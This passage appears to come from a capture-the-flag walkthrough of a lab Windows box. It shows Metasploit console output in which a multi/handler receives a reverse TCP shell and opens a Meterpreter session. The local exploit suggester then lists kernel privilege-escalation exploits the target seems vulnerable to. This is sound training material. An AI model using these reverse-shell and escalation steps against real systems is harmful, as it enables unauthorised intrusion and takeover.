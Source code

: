 ```shell


Exploit target:

   Id  Name
   --  ----
   0   Wildcard Target



View the full module info with the info, or info -d command.

msf6 exploit(multi/handler) > run

[*] Started reverse TCP handler on 10.10.14.10:443 
```

Trigger the uploaded reverse shell:
![img](https://user-images.githubusercontent.com/83878909/270324458-aaa22746-a494-4471-8044-c74d1bc4be6e.png)

```shell
[*] Started reverse TCP handler on 10.10.14.10:443 
[*] Sending stage (175686 bytes) to 10.10.10.15
[*] Meterpreter session 1 opened (10.10.14.10:443 -> 10.10.10.15:1031) at 2023-09-25 16:50:33 +0530
```
I get a shell! Unfortunately, I don’t have permission to view the user.txt flag, so I need to escalate privileges.

## Privilege Escalation
I will use the `local-exploit-suggester` module to identify any missing patches on the box which potentially allows me to escalate privileges my permissions on the box.

### Exploit Suggester
```shell
msf6> background
[*] Backgrounding session 1..
msf6 exploit(multi/handler) > search local_exploit_suggester

Matching Modules
================

   #  Name                                      Disclosure Date  Rank    Check  Description
   -  ----                                      ---------------  ----    -----  -----------
   0  post/multi/recon/local_exploit_suggester                   normal  No     Multi Recon Local Exploit Suggester


Interact with a module by name or index. For example info 0, use 0 or use post/multi/recon/local_exploit_suggester

msf6 exploit(multi/handler) > use post/multi/recon/local_exploit_suggester
msf6 post(multi/recon/local_exploit_suggester) > set session 1
session => 1
msf6 post(multi/recon/local_exploit_suggester) > run

[*] 10.10.10.15 - Collecting local exploits for x86/windows...
[*] 10.10.10.15 - 186 exploit checks are being tried...
[+] 10.10.10.15 - exploit/windows/local/ms10_015_kitrap0d: The service is running, but could not be validated.
[+] 10.10.10.15 - exploit/windows/local/ms14_058_track_popup_menu: The target appears to be vulnerable.
[+] 10.10.10.15 - exploit/windows/local/ms14_070_tcpip_ioctl: The target appears to be vulnerable.
```